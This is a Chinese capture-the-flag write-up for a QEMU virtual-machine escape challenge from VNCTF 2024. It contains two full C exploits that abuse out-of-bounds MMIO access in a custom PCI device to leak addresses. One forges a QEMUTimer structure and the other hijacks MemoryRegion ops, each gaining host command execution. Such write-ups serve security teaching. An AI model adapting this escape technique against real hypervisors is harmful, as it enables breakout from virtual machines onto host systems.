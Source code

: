 # vnctf2024 escape_langlang_mountain2 wp

## 前言

用户态的题实在想不出新的点子，去年的VNCTF有qemu逃逸，所以今年继续沿用，正好自己也复现过一些qemu的CVE。

在以往的qemu逃逸题中似乎很少有用伪造QEMUTimer结构体去劫持控制流的方法，本人也只在hfctf2022的hfdev和qwb2019的ExecChrome遇到过，不过它们都是使用自身的设备中的QEMUTimer结构体，自己复现CVE-2019-6778时了解到：伪造一个QEMUTimerList结构体和QEMUTimer结构体，然后修改全局变量main_loop_tlg为伪造的QEMUTimerList结构体地址就能实现逃逸，不用依赖任何设备中的QEMUTimer，在qemu中这就是一种通用的攻击方法。基于此就整出了escape_langlang_mountain2这道题。

## 正文

vn_mmio_write函数中可以随意修改(v5 + 2944)，在vn_mmio_read函数中就是通过这个值去读取缓冲区的值，但是这个值可以是负数，也就给了越界读取数据的机会

<img src="img/Screenshot 2024-02-07 152011.png" style="zoom:80%;" />

MemoryRegion的结构体在缓冲区之上，通过设置好负数读取ops的地址就可以实现对qemu地址泄漏，读取opaque的地址也就知道vn设备在堆中的地址

```c
struct MemoryRegion {
    ...
    ...
    DeviceState *dev;

    const MemoryRegionOps *ops;
    void *opaque;
    MemoryRegion *container;
    ...
    ...
}
```

vn_mmio_write函数也可以通过(v5 + 2944)去写入4字节，但是只能写一次，最后的劫持控制流是通过伪造QEMUTimer结构体，然后去修改QEMUTimerList结构体中的active_timers，具体原因一下参考本人复现CVE-2020-14364的文章：https://xtxtn.github.io/2023/10/11/CVE-2020-14364/#%E4%BF%AE%E6%94%B9time-list   。

总体思路：

1. 读取MemoryRegion的结构体中的ops和opaque值
2. QEMUTimerList的地址可以通过qemu的全局变量main_loop_tlg去泄漏，堆和qemu的地址一般非常接近，正好可以在一个32位负数的范围内读取全局变量main_loop_tlg中的值
3. 在vn设备的缓冲区中伪造QEMUTimer结构体
4. QEMUTimerList结构体就存在于堆上，并且地址小于vn设备，设置好负数修改active_timers即可

完整exp：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>

void * mmio;

uint32_t mmio_read(uint32_t addr){
    return *(uint32_t *)(mmio + addr);
}

void mmio_write(uint32_t addr, uint64_t val){
    *(uint64_t *)(mmio + addr) = val;
}

uint64_t read_val(int offset){
    uint64_t val;
    mmio_write(0x10, offset + 4);
    val = mmio_read(0x20);
    mmio_write(0x10, offset);
    val = (val << 32) + mmio_read(0x20);
    return val;
}

void write_val(int offset, uint64_t val){
    mmio_write(0x20, ((uint64_t)offset << 32) + (val & 0xffffffff));
    mmio_write(0x20, ((uint64_t)(offset + 4) << 32) + (val >> 32));
}

int main(){
    int  mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    mmio         = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);

    uint64_t elf_addr = read_val(-192);
    printf("[*] leak the elf_addr is : %#lx\n", elf_addr);
    uint64_t heap_addr = read_val(-192 + 8);
    printf("[*] leak the heap_addr is : %#lx\n", heap_addr);

    uint64_t elf_base = elf_addr - 0xf581e0;
    uint64_t system_plt = elf_base + 0x312040;
    uint64_t main_loop_tlg = elf_base + 0x14b9480;
    uint64_t vn_buf_addr = heap_addr + 0xb40;

    uint64_t timer_list_addr = read_val(main_loop_tlg + 8 - vn_buf_addr);
    printf("[*] leak the timer_list_addr is : %#lx\n", timer_list_addr);

    uint64_t fake_timer_addr = vn_buf_addr;
    uint64_t cmd_addr = fake_timer_addr + 0x30;
    write_val(8, timer_list_addr);
    write_val(0x10, system_plt);
    write_val(0x18, cmd_addr);
    write_val(0x30, 0x67616c6620746163); //cat flag

    mmio_write(0x10, timer_list_addr + 0x40 - vn_buf_addr);
    mmio_write(0x30, fake_timer_addr);
}
```

## 非预期

这次比赛唯一解出此题的Tplus师傅发现net_bridge_run_helper函数存在一个execv("/bin/sh")，修改MemoryRegion的结构体中的ops劫持控制流

<img src="img/Screenshot 2024-02-17 230750.png" style="zoom:100%;" />

出题人自己属实没想到qemu中有这种后门类似的东西，Tplus师傅实在tql。

这里贴出Tplus师傅的解法：

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

// #define MAP_SIZE 4096UL
#define MAP_SIZE 0x1000000
#define MAP_MASK (MAP_SIZE - 1)


char* pci_device_name = "/sys/devices/pci0000:00/0000:00:04.0/resource0";

unsigned char* mmio_base;

unsigned char* getMMIOBase(){

    int fd;
    if((fd = open(pci_device_name, O_RDWR | O_SYNC)) == -1) {
        perror("open pci device");
        exit(-1);
    }
    mmio_base = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd,0);
    if(mmio_base == (void *) -1) {
        perror("mmap");
        exit(-1);
    }
    return mmio_base;
}

void mmio_write(uint64_t addr, uint64_t value)
{
    *((uint64_t*)(mmio_base + addr)) = value;
}

uint32_t mmio_read(uint64_t addr)
{
    return *((uint32_t*)(mmio_base + addr));
}
void mmio_write_idx(uint64_t idx, uint64_t value)
{
    uint64_t val = value + (idx << 32);
    mmio_write(0x20,val);
}

int main(int argc, char const *argv[])
{
    uint32_t catflag_addr = 0x6E65F9;

    getMMIOBase();
    printf("mmio_base Resource0Base: %p\n", mmio_base);
    mmio_write(0x10, -17*0x8);
    uint64_t pie_low = mmio_read(0x20);
    mmio_write(0x10, -17*0x8 + 0x4);
    uint64_t pie_high = mmio_read(0x20);
    uint64_t pie = pie_low + (pie_high << 32) - 0x82B35B;
    printf("pie = 0x%llx\n", pie);
    mmio_write(0x10, -10*0x8);
    uint64_t heap_low = mmio_read(0x20);
    mmio_write(0x10, -10*0x8 + 0x4);
    uint64_t heap_high = mmio_read(0x20);
    uint64_t heap = heap_low + (heap_high << 32);
    printf("heap = 0x%llx\n", heap);
    uint64_t system_plt = pie;
    uint64_t backdoor = pie + 0x67429B;
    uint64_t system_plt_addr = heap + 0x60 + 8;
    uint64_t cmdaddr = heap + 0x58 + 8;
    mmio_write_idx(8,0x20746163);
    mmio_write_idx(12,0x67616C66);
    mmio_write_idx(16,backdoor & 0xffffffff);
    mmio_write_idx(20,backdoor >> 32);
    mmio_write_idx(24,system_plt_addr & 0xffffffff);
    mmio_write_idx(28,system_plt_addr >> 32);
    mmio_write_idx(32,cmdaddr & 0xffffffff);
    mmio_write_idx(36,cmdaddr >> 32);
    for(int i = 40;i <= 60 ;i += 4 )
    {
        mmio_write_idx(i,0);
    }
    mmio_write(0x10,-0xc0);
    getchar();
    mmio_write(0x30,system_plt_addr);
    mmio_read(0);
    return 0;
}
```

## 结语

本来觉得这个出题点算是一次很大的创新，没想到赛后直接喜提pwn方向的差评第一😭，差评率更是遥遥领先，可能漏洞设置得确实有点刁钻，希望不了解QEMUTimer攻击方式的师傅可以多了解一下。

如果有什么其它问题或者更好的解法，欢迎联系出题人（QQ：1744624466）。
